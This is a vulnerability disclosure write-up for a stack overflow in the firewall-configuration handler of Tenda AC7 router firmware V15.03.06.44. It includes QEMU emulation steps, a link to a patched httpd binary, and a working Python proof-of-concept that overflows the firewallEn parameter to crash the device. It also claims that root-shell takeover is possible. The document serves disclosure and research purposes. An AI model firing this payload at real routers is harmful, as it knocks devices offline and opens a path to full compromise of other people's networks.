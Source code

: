 Overview
--------

Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/6c8f66b9-f107-4610-973f-d5f4365cfbd8)

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.0.1/24
brctl addif br0 ens33//搭建网桥
```

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7\_\_V15.03.06.44\_httpd\_ok file in this project) (modify the assembly to force skip the environment check step): [https://github.com/Raining-101/IOT\_cve/blob/main/a7\_\_V15.03.06.44\_httpd\_ok](https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok)

qemu command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
----------------

V15.03.06.44

Vulnerability Details
---------------------

The Tenda AC7  V15.03.06.44 was found to have a stack overflow vulnerability in the formSetFirewallCfg function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image](https://github.com/user-attachments/assets/dac94773-9494-4c4e-b612-8e3ac9eb4554)


In the function, the (the value of ) we entered is directly copied into the array through the function.It is not secure, as long as the size of the data we enter is larger than the size of , it will cause a stack overflow.`formSetFirewallCfgfirewall_valuefirewallEnfirewall_bufstrcpyfirewall_buf`

Recurring vulnerabilities and POC
---------------------------------

In order to reproduce the vulnerability, the following steps can be followed:

1.  Boot the firmware by qemu-system or other ways (real machine)
2.  Attack with the following POC attacks

```text-plain
import requests


url = "http://192.168.0.1/goform/SetFirewallCfg"


headers = {
    "Host": "192.168.0.1", 
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.1",  
    "DNT": "1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/index.html"  
}

cookies = {
    "ecos_pw": "eee",
    "language": "cn"
}

payload = {
    "firewallEn": "a" * 1000  
}

try:
    response = requests.post(
        url=url,
        headers=headers,
        cookies=cookies,
        data=payload,
    )
    

    
except requests.exceptions.RequestException as e:
    print(f"Request failed: {e}")
```

![image](https://github.com/user-attachments/assets/f3338808-f0df-40a5-a1b4-84ea4173208f)


By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![image](https://github.com/user-attachments/assets/847f2a4b-746b-44fe-89aa-ace1109393da)


Of course, you can also write poc to keep the root shell (because the pc register is controllable).
